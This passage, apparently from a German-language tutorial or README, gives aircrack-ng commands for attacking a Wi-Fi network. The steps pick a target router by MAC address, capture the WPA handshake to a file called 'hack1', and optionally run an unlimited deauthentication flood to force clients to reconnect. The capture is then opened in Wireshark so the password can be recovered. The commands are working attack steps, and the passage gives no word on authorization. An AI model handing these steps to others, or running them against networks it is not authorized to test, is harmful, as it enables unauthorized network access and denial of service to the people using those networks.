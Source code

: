 ---------------------------------------------------------------------------------


## C. Ziel auswählen & Pakete abfangen
```
$ sudo airodump-ng wlan0mon
```

- So würde ein gewünschter Output aussehen:

		
		SSID	AUTH		ENC		CH	BSSID (MAC)	MB

		Name	Verifizierung	z.B.WPA2	Zahl	MAC-Aresse	Zahl
		


- mit `STRG+C` beenden


- Mit diesem Befehl kann ein bestimmtes WLAN beobachtet werden:
```
$ sudo airodump-ng wlan0mon -d *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS*
```


- Nun muss ein belibiges Gerät mit dem WLAN verbunden werden, damit Pakete übertragen werden:
(Es sollte eine Packetanzahl unter dem Punkt "Lost" zu sehen sein, während des Aufbauens einer WLAN-Verbindung.)
```
$ sudo airodump-ng -w hack1 -c 1 --bssid *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS* wlan0mon
```


- Optional: Um zu erzwingen, dass sich Geräte mit dem WLAN-ROUTER neu verbinden müssen:
```
$ sudo aireplay-ng --deauth 0 -a *HIER DIE MAC-ADRESSE DES WLAN-ROUTERS* wlan0mon
```


- Wenn alles korrekt funktioniert hat und richtig ausgeführt wurde, sollten nun die Pakete abgefangen sein und das Passwort kann ermittelt werden.


----------------------------------------------------------------------------------------------------------------


## D. [Wireshark](https://www.wireshark.org/)

In dem eigen angelegten Ordner:

```
$ ls
```
```
$ wireshark hack1-01.cap
```


----------------------------------------------------------------------------------------------------------------


## E. stop monitor mode
